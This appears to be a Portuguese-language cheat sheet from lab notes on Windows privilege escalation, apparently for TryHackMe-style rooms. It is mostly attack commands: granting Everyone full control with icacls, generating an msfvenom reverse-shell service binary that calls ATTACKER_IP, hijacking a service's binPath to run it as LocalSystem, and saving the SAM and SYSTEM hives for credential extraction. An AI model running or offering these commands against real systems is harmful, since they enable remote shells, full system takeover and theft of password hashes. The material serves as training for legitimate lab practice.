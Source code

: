 ### Verificar permissões:
```cmd
icacls C:\MyPrograms
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

---

## Permissões de serviço inseguras
### Verificar DACL de serviço:
```cmd
accesschk64.exe -qlc thmservice
```

A permissão necessária é `SERVICE_ALL_ACCESS`.

### Explorar:
Gerar executável malicioso:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
```

Definir permissões:
```cmd
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

Alterar binário do serviço:
```cmd
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

Parar e iniciar o serviço:
```cmd
sc stop THMService
sc start THMService
```

---
---

# 🛠 Recursos Adicionais
- **Nmap Scripts**: `/usr/share/nmap/scripts`
- **Metasploit Payloads**: `msfvenom -l payloads | grep "windows"`
- **FreeRDP**: `xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip> /sec:rdp /cert:ignore /auto-reconnect`
```



---

## 🛠️ SeBackup / SeRestore

### 📌 Backup do SAM e SYSTEM
```cmd
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive
```
